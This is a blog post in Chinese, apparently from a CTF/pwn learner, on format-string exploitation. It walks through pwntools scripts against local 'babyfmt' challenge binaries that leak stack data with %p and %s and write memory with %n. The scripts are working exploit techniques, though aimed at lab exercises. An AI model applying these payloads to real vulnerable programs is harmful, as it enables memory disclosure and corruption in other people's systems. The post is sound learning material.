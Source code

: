 ```yaml
---
layout: post
tags: [pwn]
title: "fmt 利用手法"
author: wsxk
date: 2025-4-7
comments: true
---
```



- [1. leak data](#1-leak-data)
  - [1.1 data存储在栈上](#11-data存储在栈上)
  - [1.2 指向data的指针存放在栈上](#12-指向data的指针存放在栈上)
  - [1.3 data和指向data的指针不放在栈上，但是fmt在栈上](#13-data和指向data的指针不放在栈上但是fmt在栈上)
- [2. write data](#2-write-data)
  - [2.1 指向data的指针不在栈上，但fmt在栈上](#21-指向data的指针不在栈上但fmt在栈上)

# 1. leak data<br>
## 1.1 data存储在栈上<br>
对于我们要泄露的data直接存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level1.0'

p = process(binary_path)
p.recvuntil(b"Send your data!")
p.sendline(b"%6$p %7$p")
p.recvuntil(b"0x")
secert1 = int(p.recvuntil(b" ").strip(b" "),16)
secert2 = int(p.recvline().strip(b"\n").ljust(8,b"\x00"),16)
print(p64(secert1)+p64(secert2))

p.interactive()
```

## 1.2 指向data的指针存放在栈上<br>
对于我们要泄露的data的指针存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level2.1'

p = process(binary_path)
p.recvuntil(b"Send your data!")
gdb.attach(p,"b *$rebase(0x14CE)")
pause()

p.sendline(b"%7$s")
p.recvuntil(b"I will now call printf on your data!")
p.recvline()
p.recvline()
secret = p.recvline()
log.success(f"secret: {secret}")
p.recvuntil(b"What is the secret password?")
p.sendline(secret)
p.interactive()
```

## 1.3 data和指向data的指针不放在栈上，但是fmt在栈上<br>
在这种情况下，如果我们能够知道data的地址，就可以将其写入fmt中，由其帮我们打印data<br>
没有地址，就创造地址！<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
context.terminal = ['tmux','splitw','-h']
binary_path = './babyfmt_level3.1'

p = process(binary_path)
gdb.attach(p,"b *0x401468")
pause()
p.sendline(b"aa%23$s"+p64(0x404100))

p.interactive()
```

# 2. write data<br>
## 2.1 指向data的指针不在栈上，但fmt在栈上<br>
如果我们能够知道data的地址，那么就能够将其写入fmt中，利用`%6$n`等手段来往其中写入值<br>
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux','splitw','-h']

binary_path = "./babyfmt_level4.1"
p = process(binary_path)

p.recvuntil(b"I will now read up to 256 bytes. Send your data!")
gdb.attach(p,"b *0x4014B4")
pause()

payload = b"%234x%25$n"+b"a"*4+p64(0x4040D8)
p.send(payload)

p.interactive()
```

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>